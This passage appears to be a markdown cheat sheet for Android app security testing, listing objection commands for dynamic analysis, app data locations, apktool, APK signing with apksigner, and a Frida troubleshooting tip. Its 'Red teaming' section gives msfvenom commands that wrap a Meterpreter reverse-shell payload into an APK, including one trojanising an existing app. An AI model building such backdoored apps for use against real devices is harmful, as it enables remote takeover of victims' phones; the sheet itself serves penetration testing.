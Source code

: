 5. Dynamic analysis 
    1. Commands upon doing objection explore
        * android clipboard monitor - Monitor clipboard
        * memory dump all - Dump memory
        * android heap - Extract heap
        * sqlite connect /pathtosqlitedb - Connect to a SQLite DB
        * android hooking - hook into a process
        * android intent - intents
        * android keystore - keystore
        * android root  - root simulate / disable
        * android shell_exec - system command
        * android sslpinning disable - Disable ssl pinning
    2. Watch Logcat
    3. Check Filesystem
        1. SDCard directory -> sdcard/Android/data/packageName 
        2. Data of the app under -> data/data/packageName
        3. wal, shm, journal database files are backup databases
        4. shared prefs folder
        5. cache
6. Other
* apktool d file.apk 

7. Red teaming
* msfvenom -p android/meterpreter/reverse_tcp LHOST=\<kali_IP\> LPORT=\<your_port\>  R \> myapp.apk  
(This will make an app with a generic looking icon named "Main Activity”)
* msfvenom -x my_app.apk -p android/meterpreter/reverse_tcp LHOST=\<kali_ip\> LPORT=\<my_port\> -o my_app_hacked.apk (Using a template apk)

8. Bug Bounty
* A nice tool for dealing with Split APKs: [Patch-APK](https://github.com/NickstaDB/patch-apk)

9. Sign

    On newer versions of the Android OS, jarsigner is no longer the recommended method for signing an APK. It's recommended instead using apksigner to sign the APK. The process can be found in the following [Stackoverflow post](https://stackoverflow.com/a/40064149).

    How to sign application using apksigner:

    1. Generate keystore:  
    keytool -genkey -v -keystore my.keystore -keyalg RSA -keysize 2048 -validity 10000 -alias app

    2. Zipalign the APK:  
    zipalign -p 4 my.apk my-aligned.apk

    3. Sign the application:  
    apksigner sign --ks-key-alias app --ks my.keystore my-aligned.apk

    4. Verify the application:  
    apksigner verify my-aligned.apk

#### Troubleshooting

1. In case you might face an "ObjC is not defined error" upon doing objection explore, apparently there's a problem with the latest version of Frida and Objection. Thus, you need to downgrade frida to version 16.7.19 in order to fix the issue.
  